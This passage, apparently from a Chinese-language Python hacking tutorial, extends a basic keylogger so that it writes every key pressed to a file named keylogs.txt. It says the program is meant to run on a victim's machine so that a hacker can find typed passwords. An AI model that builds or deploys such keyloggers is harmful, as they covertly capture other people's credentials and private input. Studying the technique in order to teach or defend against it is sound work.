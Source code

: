     图 7.8 – 打印按下的键

    在这张截图中，我们打印了执行程序时按下的键。当我们按下*Esc*键时，程序退出了。这就是一个非常基础的键盘记录器的全部内容。然而，在实际情况下，你会在受害者的机器上运行这个程序，因此仅仅在控制台打印是没有多大用处的。理想情况下，我们希望保留这些按键记录的日志。很多键盘记录器会将按键记录存储到文件中，黑客可以从中查看是否输入了任何密码或其他敏感信息。

1.  现在我们将对我们的键盘记录器进行一些更改，使其更有用。让我们创建一个新的文件名，**keylogs.txt**。

    我们将把日志存储在这个文件中。让我们来看一下代码：

    import sys

    filename = "keylogs.txt"

    file = open(filename, "w")

    def onPress(key):

    print(str(key))

    file.write(str(key))

    def onRelease(key):

    if str(key) == 'Key.esc':

    file.close()

    sys.exit(0)

    在这里，我们创建了一个写入模式的文件，每次按下一个键时，我们都会将该键存储到文件中。最后，当按下*Esc*键时，我们关闭文件并退出。如果你启动并运行程序，按下几个键，你会看到创建了一个新文件，所有的按键记录都存储在该文件内。以下是我执行此操作的结果：

    ![图 7.9 – 文件中存储的按键记录    ](img/B14788_07_09.jpg)
